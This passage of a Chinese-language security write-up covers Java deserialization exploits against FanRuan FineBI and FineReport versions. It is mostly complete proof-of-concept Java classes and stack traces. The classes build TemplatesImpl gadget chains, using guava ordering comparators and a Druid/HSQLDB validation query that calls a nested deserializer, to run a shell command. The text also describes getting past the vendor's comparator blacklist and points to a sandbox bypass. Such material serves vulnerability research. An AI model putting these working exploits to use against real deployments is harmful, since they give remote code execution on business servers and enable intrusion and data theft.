

```java
public int compare(F left, F right) {
    return this.ordering.compare(this.function.apply(left), this.function.apply(right));
}

public String apply(Object o) {
    Preconditions.checkNotNull((Object)o);
    return o.toString();
}
```

## 0x03 poc

### FineBI 5.1.5 persist-2021.01.23

没有 `blacklist.txt`。POC 用 `InvocationSerializer.getDefault()`。

```java
package fr.channel;

import com.fr.json.JSONArray;
import com.fr.rpc.serialization.InvocationSerializer;
import com.fr.serialization.GZipSerializerWrapper;
import com.fr.serialization.SerializerHelper;
import com.fr.third.guava.collect.Ordering;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.ArrayList;
import java.util.Comparator;
import java.util.Hashtable;
import java.util.TreeMap;
import java.util.zip.GZIPOutputStream;

public class PocEmpty2021 {
    static String cmd = "open -a Calculator";

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream raw = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(raw);
        oos.writeObject(table(Ordering.usingToString(), templates()));
        oos.close();
        ByteArrayOutputStream gz = new ByteArrayOutputStream();
        GZIPOutputStream go = new GZIPOutputStream(gz);
        go.write(raw.toByteArray());
        go.finish();
        go.close();
        try {
            SerializerHelper.deserialize(gz.toByteArray(), GZipSerializerWrapper.wrap(InvocationSerializer.getDefault()));
        } catch (Throwable ignored) {
        }
    }

    static Object templates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"" + cmd.replace("\\", "\\\\").replace("\"", "\\\"") + "\"});");
        byte[] evilBytes = evilClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();
        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setField(templates, "_transletIndex", 0);
        return templates;
    }

    static Object table(Comparator ord, Object inner) throws Exception {
        ArrayList list = new ArrayList();
        list.add(inner);
        JSONArray key = new JSONArray(list);
        TreeMap m1 = new TreeMap(nop());
        TreeMap m2 = new TreeMap(nop());
        m1.put(key, "x");
        m2.put(key, "y");
        Hashtable ht = new Hashtable();
        ht.put(m1, Integer.valueOf(1));
        ht.put(m2, Integer.valueOf(2));
        m1.put(key, null);
        m2.put(key, null);
        setField(m1, "comparator", ord);
        setField(m2, "comparator", ord);
        return ht;
    }

    static Comparator nop() {
        return new Comparator() {
            public int compare(Object a, Object b) {
                if (a == b) {
                    return 0;
                }
                int c = Integer.compare(System.identityHashCode(a), System.identityHashCode(b));
                return c != 0 ? c : 1;
            }
        };
    }

    static void setField(Object obj, String name, Object value) throws Exception {
        Field f = find(obj.getClass(), name);
        f.setAccessible(true);
        if (Modifier.isFinal(f.getModifiers())) {
            Field m = Field.class.getDeclaredField("modifiers");
            m.setAccessible(true);
            m.setInt(f, f.getModifiers() & ~Modifier.FINAL);
        }
        f.set(obj, value);
    }

    static Field find(Class<?> c, String name) throws NoSuchFieldException {
        for (Class<?> x = c; x != null; x = x.getSuperclass()) {
            try {
                return x.getDeclaredField(name);
            } catch (NoSuchFieldException ignored) {
            }
        }
        throw new NoSuchFieldException(name);
    }
}
```



调用栈如下

```
com.fr.json.revise.EncodeException: Failed to encode as JSON: Evil1318179761230917 cannot be cast to com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (through reference chain: java.util.ArrayList[0]->com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:101)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.collect.UsingToStringOrdering.compare(UsingToStringOrdering.java:29)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(Unknown Source)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(Unknown Source)
	at com.fr.serialization.GZipSerializerWrapper.deserialize(Unknown Source)
	at com.fr.serialization.SerializerHelper.deserialize(Unknown Source)
	at fr.channel.PocEmpty2021.main(PocEmpty2021.java:36)
```

### FR11 2022-04

没源码 参考 https://xz.aliyun.com/t/13389

```
BadAttributeValueExpException.readObject
  val.toString()
    POJONode / BaseJsonNode.toString
      ObjectMapper.writeValueAsString
        SignedObject.getObject
          内层 PriorityQueue + BeanComparator + JdbcRowSetImpl
```

### FineBI 6.1.8 / FR10 2026

6.1.8 和 FR10 同一条：`UsingToStringOrdering` + `CALL SerializationHelper.deserialize` + 内层 `TemplatesImpl`。6.1.8 的 `handleMessage` 默认会进 `SecuritySandBox`（`SANDBOX_ENABLE` 默认 true），本地 POC 不套。FR10 没有这段。

```java
package fr.channel;

import com.fr.json.JSONArray;
import com.fr.rpc.serialization.SafeInvocationSerializer;
import com.fr.serialization.GZipSerializerWrapper;
import com.fr.serialization.SerializerHelper;
import com.fr.third.alibaba.druid.pool.DruidAbstractDataSource;
import com.fr.third.alibaba.druid.pool.DruidDataSource;
import com.fr.third.alibaba.druid.pool.xa.DruidXADataSource;
import com.fr.third.guava.collect.Ordering;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.ArrayList;
import java.util.Comparator;
import java.util.Hashtable;
import java.util.TreeMap;
import java.util.zip.GZIPOutputStream;

public class PocFr10 {
    static String cmd = "open -a Calculator";

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream raw = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(raw);
        oos.writeObject(table(Ordering.usingToString(), druid()));
        oos.close();
        ByteArrayOutputStream gz = new ByteArrayOutputStream();
        GZIPOutputStream go = new GZIPOutputStream(gz);
        go.write(raw.toByteArray());
        go.finish();
        go.close();
        try {
            SerializerHelper.deserialize(gz.toByteArray(), GZipSerializerWrapper.wrap(SafeInvocationSerializer.getDefault()));
        } catch (Throwable ignored) {
        }
    }


    static DruidXADataSource druid() throws Exception {
        byte[] inner = ser(table(com.fr.third.guava.collect.Ordering.usingToString(), templates()));
        String q = "CALL \"com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize\"(X'" + hex(inner) + "')";
        DruidXADataSource d = new DruidXADataSource();
        try {
            d.setLogWriter(null);
        } catch (Throwable ignored) {
        }
        try {
            d.setStatLogger(null);
        } catch (Throwable ignored) {
        }
        d.setUrl("jdbc:hsqldb:mem:d" + System.nanoTime());
        d.setDriverClassName("com.fr.third.org.hsqldb.jdbcDriver");
        d.setUsername("SA");
        d.setPassword("");
        d.setInitialSize(1);
        d.setMinIdle(1);
        d.setMaxActive(1);
        d.setTestOnBorrow(true);
        d.setValidationQuery(q);
        try {
            Field th = DruidAbstractDataSource.class.getDeclaredField("transactionHistogram");
            th.setAccessible(true);
            th.set(d, null);
        } catch (Throwable ignored) {
        }
        try {
            Field il = DruidDataSource.class.getDeclaredField("initedLatch");
            il.setAccessible(true);
            il.set(d, null);
        } catch (Throwable ignored) {
        }
        nullNonSerializable(d);
        return d;
    }

    static Object templates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"" + cmd.replace("\\", "\\\\").replace("\"", "\\\"") + "\"});");
        byte[] evilBytes = evilClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();
        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setField(templates, "_transletIndex", 0);
        return templates;
    }

    static byte[] ser(Object o) throws Exception {
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bo);
        oos.writeObject(o);
        oos.close();
        return bo.toByteArray();
    }

    static String hex(byte[] raw) {
        StringBuilder sb = new StringBuilder(raw.length * 2);
        for (int i = 0; i < raw.length; i++) {
            sb.append(String.format("%02X", raw[i] & 0xff));
        }
        return sb.toString();
    }

    static Object table(Comparator ord, Object inner) throws Exception {
        ArrayList list = new ArrayList();
        list.add(inner);
        JSONArray key = new JSONArray(list);
        TreeMap m1 = new TreeMap(nop());
        TreeMap m2 = new TreeMap(nop());
        m1.put(key, "x");
        m2.put(key, "y");
        Hashtable ht = new Hashtable();
        ht.put(m1, Integer.valueOf(1));
        ht.put(m2, Integer.valueOf(2));
        m1.put(key, null);
        m2.put(key, null);
        setField(m1, "comparator", ord);
        setField(m2, "comparator", ord);
        return ht;
    }

    static Comparator nop() {
        return new Comparator() {
            public int compare(Object a, Object b) {
                if (a == b) {
                    return 0;
                }
                int c = Integer.compare(System.identityHashCode(a), System.identityHashCode(b));
                return c != 0 ? c : 1;
            }
        };
    }

    static void setField(Object obj, String name, Object value) throws Exception {
        Field f = find(obj.getClass(), name);
        f.setAccessible(true);
        if (Modifier.isFinal(f.getModifiers())) {
            Field m = Field.class.getDeclaredField("modifiers");
            m.setAccessible(true);
            m.setInt(f, f.getModifiers() & ~Modifier.FINAL);
        }
        f.set(obj, value);
    }

    static void nullNonSerializable(Object o) throws Exception {
        for (Class<?> c = o.getClass(); c != null && c != Object.class; c = c.getSuperclass()) {
            Field[] fs = c.getDeclaredFields();
            for (int i = 0; i < fs.length; i++) {
                Field f = fs[i];
                if (Modifier.isStatic(f.getModifiers())) {
                    continue;
                }
                f.setAccessible(true);
                Object v = f.get(o);
                if (v != null && !(v instanceof Serializable)) {
                    f.set(o, null);
                }
            }
        }
    }

    static Field find(Class<?> c, String name) throws NoSuchFieldException {
        for (Class<?> x = c; x != null; x = x.getSuperclass()) {
            try {
                return x.getDeclaredField(name);
            } catch (NoSuchFieldException ignored) {
            }
        }
        throw new NoSuchFieldException(name);
    }
}
```

```
com.fr.json.revise.EncodeException: Failed to encode as JSON: Evil1318184077978167 cannot be cast to com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (through reference chain: java.util.ArrayList[0]->com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:101)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.collect.UsingToStringOrdering.compare(UsingToStringOrdering.java:29)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.doDeserialize(SerializationHelper.java:225)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize(SerializationHelper.java:262)
	... 60 more

Exception in thread "main" com.fr.json.revise.EncodeException: Failed to encode as JSON: (was java.lang.NullPointerException) (through reference chain: java.util.ArrayList[0]->com.fr.third.alibaba.druid.pool.xa.DruidXADataSource["xaconnection"])
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:101)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.collect.UsingToStringOrdering.compare(UsingToStringOrdering.java:29)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:81)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:24)
	at com.fr.serialization.GZipSerializerWrapper.deserialize(GZipSerializerWrapper.java:39)
	at com.fr.serialization.SerializerHelper.deserialize(SerializerHelper.java:39)
	at fr.channel.PocFr10.main(PocFr10.java:40)
java.lang.NullPointerException
	at com.fr.third.alibaba.druid.pool.DruidDataSource$CreateConnectionThread.run(DruidDataSource.java:2116)
java.lang.NullPointerException
	at com.fr.third.alibaba.druid.pool.DruidDataSource$DestroyConnectionThread.run(DruidDataSource.java:2265)
```

### FR 11.5.13

698 禁了 `UsingToStringOrdering`，换成 `ByFunctionOrdering`。链还是 `CALL SerializationHelper.deserialize` + `TemplatesImpl`。11.5.13 的 `handleMessage` 同样默认进沙盒，会卡在 `TemplatesImpl.readObject`。本地 POC 不套。网上绕过思路：红细胞那篇用 `JSONArray` getter 打到 Tomcat `AbstractReplicatedMap.MapMessage.getKey`，再 `XByteBuffer.deserialize` 走一遍没有黑名单的 `ObjectInputStream`。https://mp.weixin.qq.com/s/9PxsM62-Jcgv9eMldli9fA

```java
package fr.channel;

import com.fr.json.JSONArray;
import com.fr.rpc.serialization.SafeInvocationSerializer;
import com.fr.serialization.GZipSerializerWrapper;
import com.fr.serialization.SerializerHelper;
import com.fr.third.alibaba.druid.pool.DruidAbstractDataSource;
import com.fr.third.alibaba.druid.pool.DruidDataSource;
import com.fr.third.alibaba.druid.pool.xa.DruidXADataSource;
import com.fr.third.guava.base.Functions;
import com.fr.third.guava.collect.Ordering;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.ArrayList;
import java.util.Comparator;
import java.util.Hashtable;
import java.util.TreeMap;
import java.util.zip.GZIPOutputStream;

public class PocFr115 {
    static String cmd = "open -a Calculator";

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream raw = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(raw);
        oos.writeObject(table(Ordering.natural().onResultOf(Functions.toStringFunction()), druid()));
        oos.close();
        ByteArrayOutputStream gz = new ByteArrayOutputStream();
        GZIPOutputStream go = new GZIPOutputStream(gz);
        go.write(raw.toByteArray());
        go.finish();
        go.close();
        try {
            SerializerHelper.deserialize(gz.toByteArray(), GZipSerializerWrapper.wrap(SafeInvocationSerializer.getDefault()));
        } catch (Throwable ignored) {
        }
    }


    static DruidXADataSource druid() throws Exception {
        byte[] inner = ser(table(com.fr.third.guava.collect.Ordering.usingToString(), templates()));
        String q = "CALL \"com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize\"(X'" + hex(inner) + "')";
        DruidXADataSource d = new DruidXADataSource();
        try {
            d.setLogWriter(null);
        } catch (Throwable ignored) {
        }
        try {
            d.setStatLogger(null);
        } catch (Throwable ignored) {
        }
        d.setUrl("jdbc:hsqldb:mem:d" + System.nanoTime());
        d.setDriverClassName("com.fr.third.org.hsqldb.jdbcDriver");
        d.setUsername("SA");
        d.setPassword("");
        d.setInitialSize(1);
        d.setMinIdle(1);
        d.setMaxActive(1);
        d.setTestOnBorrow(true);
        d.setValidationQuery(q);
        try {
            Field th = DruidAbstractDataSource.class.getDeclaredField("transactionHistogram");
            th.setAccessible(true);
            th.set(d, null);
        } catch (Throwable ignored) {
        }
        try {
            Field il = DruidDataSource.class.getDeclaredField("initedLatch");
            il.setAccessible(true);
            il.set(d, null);
        } catch (Throwable ignored) {
        }
        nullNonSerializable(d);
        return d;
    }

    static Object templates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"" + cmd.replace("\\", "\\\\").replace("\"", "\\\"") + "\"});");
        byte[] evilBytes = evilClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();
        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setField(templates, "_transletIndex", 0);
        return templates;
    }

    static byte[] ser(Object o) throws Exception {
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bo);
        oos.writeObject(o);
        oos.close();
        return bo.toByteArray();
    }

    static String hex(byte[] raw) {
        StringBuilder sb = new StringBuilder(raw.length * 2);
        for (int i = 0; i < raw.length; i++) {
            sb.append(String.format("%02X", raw[i] & 0xff));
        }
        return sb.toString();
    }

    static Object table(Comparator ord, Object inner) throws Exception {
        ArrayList list = new ArrayList();
        list.add(inner);
        JSONArray key = new JSONArray(list);
        TreeMap m1 = new TreeMap(nop());
        TreeMap m2 = new TreeMap(nop());
        m1.put(key, "x");
        m2.put(key, "y");
        Hashtable ht = new Hashtable();
        ht.put(m1, Integer.valueOf(1));
        ht.put(m2, Integer.valueOf(2));
        m1.put(key, null);
        m2.put(key, null);
        setField(m1, "comparator", ord);
        setField(m2, "comparator", ord);
        return ht;
    }

    static Comparator nop() {
        return new Comparator() {
            public int compare(Object a, Object b) {
                if (a == b) {
                    return 0;
                }
                int c = Integer.compare(System.identityHashCode(a), System.identityHashCode(b));
                return c != 0 ? c : 1;
            }
        };
    }

    static void setField(Object obj, String name, Object value) throws Exception {
        Field f = find(obj.getClass(), name);
        f.setAccessible(true);
        if (Modifier.isFinal(f.getModifiers())) {
            Field m = Field.class.getDeclaredField("modifiers");
            m.setAccessible(true);
            m.setInt(f, f.getModifiers() & ~Modifier.FINAL);
        }
        f.set(obj, value);
    }

    static void nullNonSerializable(Object o) throws Exception {
        for (Class<?> c = o.getClass(); c != null && c != Object.class; c = c.getSuperclass()) {
            Field[] fs = c.getDeclaredFields();
            for (int i = 0; i < fs.length; i++) {
                Field f = fs[i];
                if (Modifier.isStatic(f.getModifiers())) {
                    continue;
                }
                f.setAccessible(true);
                Object v = f.get(o);
                if (v != null && !(v instanceof Serializable)) {
                    f.set(o, null);
                }
            }
        }
    }

    static Field find(Class<?> c, String name) throws NoSuchFieldException {
        for (Class<?> x = c; x != null; x = x.getSuperclass()) {
            try {
                return x.getDeclaredField(name);
            } catch (NoSuchFieldException ignored) {
            }
        }
        throw new NoSuchFieldException(name);
    }
}
```

本地 POC（不套沙盒）：

```
com.fr.json.revise.EncodeException: Failed to encode as JSON: Evil1318197346248625 cannot be cast to com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (through reference chain: java.util.ArrayList[0]->com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:103)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.collect.UsingToStringOrdering.compare(UsingToStringOrdering.java:30)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.doDeserialize(SerializationHelper.java:225)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize(SerializationHelper.java:262)
	... 62 more

Exception in thread "main" com.fr.json.revise.EncodeException: Failed to encode as JSON: (was java.lang.NullPointerException) (through reference chain: java.util.ArrayList[0]->com.fr.third.alibaba.druid.pool.xa.DruidXADataSource["xaconnection"])
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:103)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.base.Functions$ToStringFunction.apply(Functions.java:73)
	at com.fr.third.guava.base.Functions$ToStringFunction.apply(Functions.java:67)
	at com.fr.third.guava.collect.ByFunctionOrdering.compare(ByFunctionOrdering.java:46)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:81)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:24)
	at com.fr.serialization.GZipSerializerWrapper.deserialize(GZipSerializerWrapper.java:37)
	at com.fr.serialization.SerializerHelper.deserialize(SerializerHelper.java:39)
	at fr.channel.PocFr115.main(PocFr115.java:41)
```

默认 channel 进沙盒时会卡在 `TemplatesImpl.readObject`，栈留在这：

```
2026-09-21T02:51:39.537Z Sandbox-/channel-Thread-13 ERROR init datasource error, url: jdbc:hsqldb:mem:d1303564045600792
java.sql.SQLException: Java execution: com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize
	at com.fr.third.org.hsqldb.jdbc.JDBCUtil.sqlException(JDBCUtil.java:418)
	at com.fr.third.org.hsqldb.jdbc.JDBCUtil.sqlException(JDBCUtil.java:247)
	at com.fr.third.org.hsqldb.jdbc.JDBCStatement.fetchResult(JDBCStatement.java:1797)
	at com.fr.third.org.hsqldb.jdbc.JDBCStatement.executeQuery(JDBCStatement.java:182)
	at com.fr.third.alibaba.druid.pool.DruidAbstractDataSource.validateConnection(DruidAbstractDataSource.java:1443)
	at com.fr.third.alibaba.druid.pool.DruidAbstractDataSource.createPhysicalConnection(DruidAbstractDataSource.java:1742)
	at com.fr.third.alibaba.druid.pool.DruidDataSource.init(DruidDataSource.java:970)
	at com.fr.third.alibaba.druid.pool.DruidDataSource.getConnection(DruidDataSource.java:1458)
	at com.fr.third.alibaba.druid.pool.DruidDataSource.getConnection(DruidDataSource.java:1454)
	at com.fr.third.alibaba.druid.pool.xa.DruidXADataSource.getXAConnection(DruidXADataSource.java:46)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
